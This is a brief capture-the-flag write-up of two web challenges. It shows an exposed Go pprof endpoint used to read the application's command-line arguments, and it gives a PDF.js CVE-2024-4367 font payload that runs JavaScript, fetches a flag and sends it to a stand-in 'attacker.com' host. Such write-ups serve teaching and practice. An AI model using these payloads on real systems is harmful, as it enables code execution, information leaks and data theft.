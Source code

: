 ## Proxy For Life

This challenge was made in go.

Basically if we have proof being exported by the application: `_ "net/http/pprof"` we can use the endpoint `/debug/pprof` to look for the arguments passed by the application:

![Alt text](image-1.png)

THe following payload does it:

```
http://172.206.89.197:9090/debug/pprof/cmdline?debug=1
```

## Upload

This challenge explores the vulnerability tracked as CVE-2024-4367 – Arbitrary JavaScript execution in PDF.js.

Payload: `/FontMatrix [1 2 3 4 5 (0\); fetch\(‘/flag’\).then\(r=>r.text\(\)\).then\(f=>location=’https://attacker.com/?flag='+encodeURIComponent\(f\)\);`

More: <https://medium.com/@itsmeliodas/upload-ctf-akasec-2024-5723cc950bb9>
